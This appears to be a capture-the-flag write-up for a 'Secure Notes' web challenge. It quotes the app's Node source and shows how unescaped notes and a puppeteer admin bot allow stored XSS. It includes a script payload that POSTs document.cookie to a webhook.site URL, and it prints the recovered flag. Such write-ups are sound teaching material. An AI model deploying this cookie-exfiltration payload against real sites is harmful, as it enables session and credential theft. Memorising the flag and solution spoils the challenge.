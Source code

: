 # UM6P_Quals

## ChallengeName: Secure Notes



<strong>challenge discription</strong>

<img src='./assets/1.png' style="max-width:40%">



<h3>visiting the challenge on browser</h3>

<img src='./assets/2.png' style="max-width:40%">

<h3>Let's check the source code</h3>

<h3>In this indpoint it takes a note without any filtration saving it and return the note link</h3>

```javascript
app.post('/save', (req, res) => {
    if (Object.keys(notes).length > 100)
        notes = {}
    text = req.body.text;
    if (text.length > 1000)
        res.send('Note too long!');
    else {
        uid = uuidv4();
        notes[uid] = text;
        res.send(`note saved successfully, <a href=/notes/${uid}>link</a>.`);
    }
});
```

<h3>The note link was taking us to an indpoint <strong>/notes/[uid]</strong></h3>
<h3>Let's check the indpoint</h3>

```javascript
app.get('/notes/:uid', (req, res) => {
    const { uid } = req.params;
    const uidPattern = /^[a-fA-F0-9]{8}-[a-fA-F0-9]{4}-4[a-fA-F0-9]{3}-[89aAbB][a-fA-F0-9]{3}-[a-fA-F0-9]{12}$/;
  
    if (uidPattern.test(uid)) {
        if (uid in notes) {
            html = `
            <table>
              <thead>
                <tr>
                  <th>UID</th>
                  <th>Note</th>
                  <th>Actions</th>
                </tr>
              </thead>
              <tbody>
                <tr>
                  <td>${uid}</td>
                  <td>${notes[uid]}</td>
                  <td>
                    <button onclick="fetch('/report/${uid}').then(response => response.text()).then(data => alert(data)).catch(error => alert(error));">share with admin</button>
                  </td>
                </tr>
              </tbody>
            </table>
          `;
          res.send(html);
        } else {
            res.send('Note not found.');
        }
    } else {
        res.send('Invalid UID.');
    }
});
```

<h3>
So it only print our note without any filteration<br/>
Hmm Let's try some <strong>XSS</strong>
</h3>

<br/>
<img src='./assets/3.png' style="max-width:40%">
<br/>
<br/>

<h3>Let's save the Note and visite the click on the link</h3>
<br/>

<img src='./assets/4.png' style="max-width:40%">

<h3>It works and there's also a button <strong>share with admin</strong></h3>

<img src='./assets/5.png' style="max-width:40%">

<h3>
Let's check the source code again to see how <strong>/report</strong> indpoint works 
</h3>

```javascript
app.get('/report/:uid', (req, res) => {
    if (reports.length > 100)
        reports = []
    const { uid } = req.params;
    const uidPattern = /^[a-fA-F0-9]{8}-[a-fA-F0-9]{4}-4[a-fA-F0-9]{3}-[89aAbB][a-fA-F0-9]{3}-[a-fA-F0-9]{12}$/;

    if (uidPattern.test(uid))
    {
        if (reports.indexOf(uid) != -1)
            res.send("this note has already been shared with admin!");
        else
        {
            reportNote(`/notes/${uid}`);
            reports.push(uid);
            res.send("note has been sent to the admin!");
        }
    }
});
```
<h3>It's doing simple checks and then sends the url to a <strong>reportNote</strong> function<br/>So let's check that</h3>

```javascript
FLAG = process.env.FLAG || "akasec{ssss}"

async function reportNote(url) {
    try {
        const browser = await puppeteer.launch({ executablePath: '/usr/bin/google-chrome', headless: "new", args: ['--no-sandbox', '--disable-setuid-sandbox'] });
        const page = await browser.newPage();
  
        await page.setCookie({
            name: 'flag',
            value: FLAG,
            domain: 'localhost:3000'
        });
        await page.goto(`http://localhost:3000`);
        await page.evaluate((url) => {
            location.href = url;
        }, url);
        await new Promise(resolve => setTimeout(resolve, 5000));
        await browser.close();
    } catch (err) {
        console.log("?:", err);
    }
}
```
<h3>It user <strong>puppeteer</strong>.<br/>
<strong>Puppeteer</strong> is a Node. js library developed by Google that lets you control headless Chrome through the DevTools Protocol.<br/><br/>
Let's break this down to see what this doing exactly<br/>
It set's a <strong>cookie</strong> flag and its value is our flag that is loaded from the <strong>env</strong><br/>
and then visits the url passed passed as argument which is the our Note url<br/>
</h3>



<h3>So we can pass a payload to read the <strong>cookie</strong> and send it to us using http request.</h3>
<h3>First I let's open a <strong>webhook</strong>  that will start listning on our request</h3>

<img src='./assets/6.png' style="max-width:40%">

<h3>let's put our payload in a note and <strong>report it to admin</strong></h3>


```javascript
fetch('https://webhook.site/00dab9f6-07c5-4a73-902f-ebc4f97a7eb6', {method: "POST", body: document.cookie})
// Full payload will be like this
<script>
fetch('https://webhook.site/00dab9f6-07c5-4a73-902f-ebc4f97a7eb6', {method: "POST", body: document.cookie})
</script>
```
<img src='./assets/7.png' style="max-width:40%">
<br/>
<h3>Save the note and visit it's link you should reseve first post<br/>request in your webhook when the xss executed in your client-side</h3>
<br/>
<img src='./assets/8.png' style="max-width:40%">
<br/>
<br/>
<img src='./assets/9.png' style="max-width:40%">


<h3>Now let's make admin visit the note by clicking on <strong>share with admin</strong> button</h3>


<img src='./assets/10.png' style="max-width:40%">
<h3>and as you can see we recieved our flag</h3>
<hr/>
<h2>The flag <strong>AKASEC{GooD_0LD_BX55}</strong></h2>